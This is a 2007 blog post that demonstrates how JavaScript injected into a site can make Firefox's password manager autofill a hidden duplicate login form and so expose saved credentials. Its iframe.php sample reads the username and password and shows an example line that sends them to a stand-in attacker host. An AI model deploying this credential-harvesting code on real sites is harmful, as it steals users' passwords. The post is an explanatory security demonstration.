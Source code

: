 ```yaml
---
title: Demonstrating Password Manager Almost Vulnerability in FireFox
date: 2007-07-28
tag:
- javascript
- security
---
```

The "security guys" have been talking about the problems with FireFox's password manager and I got curious.  It turns out that javascript can access saved passwords in your password manager simply by creating a login form and capturing the input field's contents.  

<!--more-->

While this isn't necessarily a vulnerability in FireFox, it does suck!  The biggest attack vector is websites that allow user submitted content that have script injection holes.  Basically, if a third party can create a form and insert some javascript on the page, they will be 'acting' to the browser as if they're a legitimate part of the site.  Lets check out a proof of concept:

First off, we have legitimate site here with its login form:

**`index.php`**
```html
<h1>Log In:</h1>

<form action="login.php" name="login" method="post">
  Username: <input type="text" name="username"></input><br></br>
  Password: <input type="password" name="password"></input><br></br>
  <input type="submit"></input>
</form>
```

And then we process the login (which allows firefox to save the password) and redirect to a standard page.

**`login.php`**
```php
/**
 * yay logged in
 */
die(header("Location: loggedin.php"));
```

and my logged in page.

**`loggedin.php`**
```html
You're logged in now.

<a href="index.php">Log in again</a><br></br>
<a href="hack.php">Hack it</a>
```

As you can see, we can go back to the index.php page with the login form to verify that the password manager has saved our password.

Lets move on to the hack.php page which is the page that had a vulnerability that allowed the third party to insert some content.

**`hack.php`**
```html
Here is a normal page.  Don't feel scared.

<iframe src="iframe.php" style="visibility: hidden"></iframe>
```

In theory, you'd have to also have a file named iframe.php on the same server.  I just separated it to keep the code separate.  In a real life example, we'd be inserting the content of iframe.php inside of a div so it runs directly from that server.  But anyways...

**iframe.php (the evil code)**

```html
<html>
  <body onload="stealit()">
    <form action="login.php" name="login" method="post">
      Username: <input type="text" name="username"></input><br></br>
      Password: <input type="password" name="password"></input><br></br>
    </form>
    <script>
      function stealit()
      {
        var username=document.login.username.value;
        var password=document.login.password.value;
        
         alert(
           "I am gonna do this:  self.location.href='http://hackserver.php?username=" 
           + username + "&amp;password=" + password + "'"
         );
      }
    </script>
  </body>
</html>
```

As you see, this makes an identical login form so that Firefox fills it in (firefox is doing its job! Don't be tooo mad).  Then, my script could go and make a request at a remote server with the username and password using ajax or loading an image or anything really.  (Here I just alert it.)

While I'm excited to see what Firefox is going to do to help stop this type of issue, I'm not mad and don't really think its that much of a bug.  When you use password manager, you KNOW what its going to do.
